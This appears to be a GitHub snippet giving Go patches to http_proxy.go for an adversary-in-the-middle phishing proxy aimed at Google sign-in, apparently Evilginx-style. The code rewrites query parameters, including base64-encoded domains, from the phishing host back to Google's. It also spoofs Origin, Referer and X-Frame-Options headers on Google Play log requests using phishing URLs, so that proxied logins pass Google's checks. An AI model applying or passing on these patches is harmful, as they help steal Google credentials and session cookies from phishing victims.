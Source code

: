 
install node using & npm

https://github.com/nodesource/distributions/blob/master/README.md#ubuntu-versions

Then we go ahead and add this to http_proxy.go


```

				// patch GET query params with original domains
				if pl != nil {
   				 qs := req.URL.Query()
   				 if len(qs) > 0 {
      				  for gp := range qs {
           				 for i, v := range qs[gp] {
              				  // Log query parameters
               				 log.Debug("Server Side Query : %s=%s\n", gp, v)

               				 // Patch the URLs
             				   patched := string(p.patchUrls(pl, []byte(v), CONVERT_TO_ORIGINAL_URLS))
              				  
              				  firstrep := strings.ReplaceAll(patched, "aHR0cHM6Ly9hY2NvdW50cy5leGFtcGxlLmNvbTo0NDM", "aHR0cHM6Ly9hY2NvdW50cy5nb29nbGUuY29tOjQ0Mw")

              				  replaced := strings.ReplaceAll(firstrep, "example", "google")              				  
             				   // Log the replacement
             				   log.Debug("Replaced Query : %s=%s\n", gp, replaced)
            				    
            				    // Replace the value with the modified one
           				     qs[gp][i] = replaced
         				   }
       				 }
    				    req.URL.RawQuery = qs.Encode()
   				 }
				}

```

And below strings too

```

			if strings.HasPrefix(resp.Request.URL.Path, "/log") || strings.Contains(resp.Request.URL.Path, "playlog") {
			
				if origin := resp.Header.Get("Origin"); origin != "" {
					resp.Header.Set("Origin", string(p.patchUrls(pl, []byte("https://play.google.com"), CONVERT_TO_PHISHING_URLS)))
				}

				if referer := resp.Header.Get("Referer"); referer != "" {
					resp.Header.Set("Referer", string(p.patchUrls(pl, []byte("https://play.google.com"), CONVERT_TO_PHISHING_URLS)))
				}
			}

			if resp.Request.URL.Path == "/log" {
				resp.Header.Add("X-Frame-Options", "ALLOW-FROM "+string(p.patchUrls(pl, []byte("https://play.google.com"), CONVERT_TO_PHISHING_URLS)))
			}

```

